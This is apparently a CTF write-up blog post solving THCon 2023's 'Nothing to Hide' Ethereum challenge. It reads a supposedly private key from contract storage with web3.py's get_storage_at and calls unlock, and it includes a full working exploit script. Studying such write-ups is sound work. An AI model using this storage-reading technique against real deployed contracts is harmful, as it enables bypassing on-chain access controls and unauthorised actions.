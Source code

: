 ```yaml
---
layout: post
title: "Nothing to Hide (THCon CTF 2023)"
author: cryptax
date: 2023-04-22
tags:
- THCon
- CTF
- 2023
- Web3
- Ethereum
---
```


## Description

![](/images/thcon23-nothingtohide-description.png)

The challenge provides the following contract, and, same as the [Welcome challenge](https://cryptax.github.io/2023/04/22/welcome.html), the goal is to "unlock" to get the flag.


```
pragma solidity ^0.7.1;

contract hidden {

    bool public isLocked;
    
    bytes32 private key;
    
    bool private other;

    uint256 private garbage = 88888888888;

    uint256 public useless;

    uint256 private bob;


    constructor() {
        //hidden
    }

    function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }

}
```


## Solving the challenge

Like in the previous challenge, to unlock, we need a **key**, except this time it is *private*:

```
bytes32 private key;
...
function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }
```

So, we're going to read the key (exactly the way I had intended to do it initially with Welcome) using [`get_storage_at`](https://web3py.readthedocs.io/en/stable/web3.eth.html#web3.eth.Eth.get_storage_at). The storage probably holds the key at index 1:

```
bool public isLocked; # index 0
bytes32 private key;  # index 1
bool private other;   # index 2
...
```


The first step is to get the ABI of the contract, using solc. That's a step I grasped from [Sylvain Pelissier at Insomni'hack CTF](https://sylvainpelissier.gitlab.io/posts/2023-03-24-insomnihack-ownercheap/):

```
solc nothingtohide.sol --abi > abi.json
```

For the command to work, in my case, I had to fix the solidity pragma to `pragma solidity ^0.8.19;`. Then I copy-pasted the Json array in my Python script.

Then, you deploy the contract on the CTF infrastructure and retrieve the contact's address.

My script is very inspired from Sylvain's:

1. Connect to the RPC URL
2. Get the contract, using its address
3. Read the key from storage
4. Send the transaction

To send the transaction, you need your private key. You can retrieve it from the Metamask wallet you created for the CTF:

![](/images/thcon23-web3-account.png)
![](/images/thcon23-web3-accountdetails.png)

```python
#!/usr/bin/env python3

from web3 import Web3

# solc nothingtohide.sol --abi > abi.json - then copy paste content of abi.json here
abi = [{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[],"name":"isLocked","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"bytes32","name":"_something","type":"bytes32"}],"name":"unlock","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"useless","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"}]

# connect to the CTF RPC URL
url = 'https://node01-eth.ctf.thcon.party:8545'
web3 = Web3(Web3.HTTPProvider(url))

# I am logged in the CTF interface with this personal address
my_address = web3.to_checksum_address('0xc8fe...')

# The contract is deployed at this address
contract_address = web3.to_checksum_address('0xb9eE2C6DBa64e2dc3FE7e78aEE8e34FBb33FcAA3')
contract = web3.eth.contract(address=contract_address, abi=abi)

# Read the key from the contract
key_bytes = web3.eth.get_storage_at(contract_address,1)
print(f"key bytes: {key_bytes} {len(key_bytes)}")
# b' \xfa\xbb\xc0f0e\xde\x90\x9de\xa3\x02D\xd2\xb4\x1eE\x10\xa3`\xe7\xd5\xb0xA\xbb\x90\x8a\xd5z\x9f'

# create transaction
print('Creating transaction...')
transfer_tx = contract.functions.unlock(key_bytes).build_transaction(
    {
        'from': my_address,
        'nonce': web3.eth.get_transaction_count(my_address),
        'gasPrice': web3.eth.gas_price
    })


# signing the transaction with my personal wallet's private key (in Metamask)
print("Signing transaction...")
x_create = web3.eth.account.sign_transaction(transfer_tx, 0x863ce...)
# sending the transaction - for that I need a few tokens at least that I can mine on the CTF interface
print('Send raw...')
tx_hash = web3.eth.send_raw_transaction(x_create.rawTransaction)
print('Receipt')
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print(f'Tx successful with hash: { tx_receipt.transactionHash.hex() }')
```

This unlocks the contract, and thus, when you go back to the CTF interface, you get the flag :)

![](/images/thcon23-nothingtohide-solved.png)

## My feedback

Actually, I flagged this challenge more easily / quickly than Welcome, because I had some prior (small) experience with Web3 python scripts.
Nevertheless, I liked it very much: I find the scenario's design excellent, the CTF crypto interface excellent. Thanks!
